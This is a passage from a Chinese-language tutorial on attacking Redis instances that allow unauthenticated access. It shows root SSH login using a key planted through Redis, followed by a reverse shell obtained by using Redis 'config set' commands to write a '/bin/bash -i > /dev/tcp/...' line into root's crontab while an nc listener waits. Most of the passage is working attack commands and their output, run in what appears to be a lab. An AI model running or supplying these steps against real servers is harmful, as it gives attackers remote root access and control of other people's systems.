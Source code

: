

这样，我们就把公钥写入对方的服务器了，直接用生成的私钥连接即可

```
kingkk@ubuntu:~/.ssh$ ssh -i id_rsa root@192.168.85.132
Last login: Sun Mar 11 03:50:15 2018 from 172.22.224.117
[root@localhost ~]# id
uid=0(root) gid=0(root) 组=0(root) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
You have new mail in /var/spool/mail/root
```

![](redis未授权访问与ssrf利用\2.png)

假如报了如下错误

```
sign_and_send_pubkey: signing failed: agent refused operation
```

运行下如下两句即可

```
eval "$(ssh-agent -s)"
ssh-add
```



## 利用计划任务反弹shell

先开一个终端监听本地的23333端口

```
nc -nlvp 23333
```

利用之前类似的文件写入，写入定时命令

```
192.168.85.132:6379> set x "\n* * * * * /bin/bash -i > /dev/tcp/192.168.85.128/23333 0<&1 2>&1\n"
OK
192.168.85.132:6379> config set dir /var/spool/cron/
OK
192.168.85.132:6379> config set dbfilename root
OK
192.168.85.132:6379> save
OK
```

需要等待一会，一般一分钟之内吧，nc就能收到反弹回来的shell了
